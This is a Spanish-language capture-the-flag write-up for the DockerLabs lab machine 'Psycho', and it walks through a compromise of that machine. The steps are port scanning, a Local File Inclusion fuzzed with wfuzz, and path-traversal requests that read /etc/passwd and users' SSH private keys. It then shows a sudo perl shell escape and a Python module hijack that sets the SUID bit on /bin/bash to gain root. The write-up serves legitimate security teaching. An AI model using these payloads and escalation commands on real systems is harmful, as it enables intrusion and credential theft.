Maquina Psycho
En esta práctica trabajaremos con una máquina de DockerLabs en la que explotaremos una vulnerabilidad de Local File Inclusion (LFI). Gracias a esta falla obtendremos diferentes ventajas que nos permitirán avanzar en el proceso de explotación y, finalmente, apoderarnos de la máquina víctima.
Empezaremos haciendo un escaneo de puertos a la maquina Psycho con la herramienta Nmap
sudo nmap -p- --open -sSCV --min-rate 5000 -Pn -n -v 172.17.0.2 -oN escaneo
| Parte | Significado |
|---|---|
sudo | Se necesita privilegios de administrador para algunos tipos de escaneo (como los de tipo SYN). |
nmap | Herramienta para escaneo de redes y puertos. |
-p- | Escanea todos los puertos (del 1 al 65535). |
--open | Muestra solo los puertos abiertos, omite los cerrados y filtrados. |
-sSCV | Combinación de opciones: • -sS = Escaneo SYN (rápido y sigiloso). • -sC = Usa scripts NSE básicos, equivalente a --script=default. • -sV = Detecta versiones de servicios. |
--min-rate 5000 | Intenta enviar al menos 5000 paquetes por segundo (muy rápido). ⚠️ Puede generar falsos positivos si la red no lo soporta bien. |
-Pn | No hace ping previo al host (asume que está vivo). Útil si ICMP está bloqueado. |
-n | No resuelve nombres DNS (más rápido). |
-v | Modo verborreico: muestra más detalles durante el escaneo. |
172.17.0.2 | IP del objetivo. |
-oN escaneo | Guarda el resultado en un archivo llamado escaneo en formato legible para humanos (normal output). |
El escaneo nos muestra que esta maquina tiene 2 puerto abierto.
- puerto 22 ssh version 9.6
- puerto 80 http

Revisaremos el puerto 80 para ver que pagina esta corriendo por detrás. Vemos una pagina sencilla que hace alusión a un CTF . Revisamos el código fuente sin encontrar nada raro. En la pagina sale el nombre de TLuisillo_o tanto en el hero como el footer, esto podría ser un posible usuario. La pagina tiene 2 botones que no funcionan. uno en el nabvar y otro en el centro de la pagina hero.

También podemos ver que abajo sale un mensaje de error. Esto puede ser que se esta tratando tener acceso a algún archivo mal configurado.


Usaremos la herramienta gobuster para ver si se encuentran directorios ocultos. Para ello usaremos el siguiente comando:
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,sh
Se encontraron algunos directorios.

Al revisar nos encontramos con un menú de apache donde hay una ruta que lleva a una imagen.

Al parecer es la imagen de fondo de la pagina encontrada en el puerto 80. Revise la imagen con la herramienta exiftool para ver si contenía algún dato oculto pero no conseguí nada.

Usare la herramienta wfuzz para ver si esta pagina es vulnerable a LFI (Local File Inclusión) ya que anteriormente se encontró en la pagina específicamente en el footer un mensaje de error por lo cual al parecer este intentando de llamar algún recurso de forma incorrecta. Usaremos el directorio que encontró index.php para ver si se trata de un LFI Para ello usaremos el siguiente comando:
wfuzz -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt 'http://172.17.0.2/index.php?FUZZ=../../../../../../../../../../etc/passwd'
| Componente | Descripción |
|---|---|
wfuzz | La herramienta para fuzzing web |
-c | Colorea la salida para mejor visualización en terminal |
-w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt | Diccionario que contiene miles de nombres de archivos/directorios/comunes. En este caso, se está usando para probar nombres de parámetros HTTP |
'http://172.17.0.2/index.php?FUZZ=../../../../../../../../../../etc/passwd' | Este es el objetivo de fuzzing. La palabra clave FUZZ será reemplazada por cada palabra del diccionario |
Al parecer nos arroja demasiada información por lo cual filtraremos un poco para que solo nos muestre cuando haya encontrado algo. Aplicaremos un filtro por lineas. por lo tanto el comando seria el siguiente
wfuzz -c --hl=62 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt 'http://172.17.0.2/index.php?FUZZ=../../../../../../../../../../etc/passwd'
| Opción | Significado |
|---|---|
wfuzz | Herramienta de fuzzing para aplicaciones web |
-c | Muestra la salida con colores (para mayor claridad visual) |
--hl=62 | Oculta respuestas que tienen exactamente 62 líneas |
-w /usr/share/...txt | Lista de palabras (payloads) que van a reemplazar FUZZ |
'http://172.17.0.2/index.php?FUZZ=../../.../etc/passwd' | URL de prueba, donde FUZZ será reemplazado por cada palabra del diccionario |

Encontró una coincidencia secret. Ahora veremos si funciona. Para ello usaremos la herramienta curl. Usaremos el siguiente comando
curl 'http://172.17.0.2/index.php?secret=../../../../../../../../../../etc/passwd'
¿Qué hace exactamente?
Este comando está intentando leer el archivo /etc/passwd del sistema remoto usando una vulnerabilidad LFI a través del parámetro secret en el archivo index.php.
| Parte | Descripción |
|---|---|
curl | Herramienta de línea de comandos para hacer peticiones HTTP |
'http://172.17.0.2/index.php?secret=...' | La URL del servidor objetivo, con un parámetro GET llamado secret que probablemente esté siendo usado en el backend por index.php |
../../../../../../../../../../etc/passwd | Ruta relativa para intentar salir del directorio actual y alcanzar el archivo sensible del sistema operativo /etc/passwd |

Tuvimos éxito. Ahora podemos ver 2 posibles usuarios vaxei y luisillo que posiblemente el segundo usuario sea el mismo TLuisillo de la pagina web. Intente usar hydra en los 2 usuarios encontrados para ver si encontraba alguna credencial para poder acceder por el puerto 22 ssh pero no se encontró nada.

Otra alternativa que podemos hacer es encontrar los archivos id_rsa de los 2 usuarios, aprovechando la vulnerabilidad LFI.
¿Qué es id_rsa?
id_rsa es la clave privada RSA utilizada para autenticarse en sistemas a través de SSH (Secure Shell).
Por defecto, se encuentra en:
/home/<usuario>/.ssh/id_rsa
Y su correspondiente clave pública está en:
/home/<usuario>/.ssh/id_rsa
¿Para qué sirve?
-
La clave privada
id_rsapermite iniciar sesión sin necesidad de contraseña, si el sistema remoto tiene la clave pública en su archivo~/.ssh/authorized_keys. -
Es como tener la llave de una casa. Si obtienes
id_rsade un usuario y puedes usarla, puedes conectarte por SSH como ese usuario.
Para ello pondremos el siguiente comando:
lusillo
view-source:http://172.17.0.2/index.php?secret=../../../../../../../../../../home/luisillo/.ssh/id_rsa
vaxei
view-source:http://172.17.0.2/index.php?secret=../../../../../../../../../../home/vaxei/.ssh/id_rsa
Tuvimos exito con el usuario vaxei

Ahora queda abrir nano pegar esta id_rsa y darle permiso 600 para poder entrar por ssh.

Aplicamos el comando sudo -l para ver binarios vulnerables. Encontramos que podemos vulnerar con perl con el usuario luisillo. Consultando la pagina https://gtfobins.github.io/gtfobins/perl/#sudo nos da el comando para aprovechar esta vulnerabilidad.
Lo adaptamos un poco
sudo -u luisillo perl -e 'exec "/bin/bash"';'

Hemos entrado al sistema como el usuario luisillo.

Aplicamos un sudo -l y nos dice que el usuario luisillo es capaz de ejecutar como root en python el script paw.py

Vamos a la ubicación del archivo y ejecutamos el script. Nos da un error ya que esta intentando ejecutar otro script llamado subprocess.py pero este no existe. podríamos crear este script

Entonces crearemos un archivo llamado subprocess.py en el mismo directorio donde se encuentra el otro script paw.py. Abrimos con nano el script y agregamos lo siguiente.
import os;
os.system("chmod u+s /bin/bash")
Guardamos el archivo y luego ejecutamos el archivo paw.py
sudo -u root /usr/bin/python3 /opt/paw.py
y por ultimo ponemos el siguiente comando
bash -p
Con esto seremos root
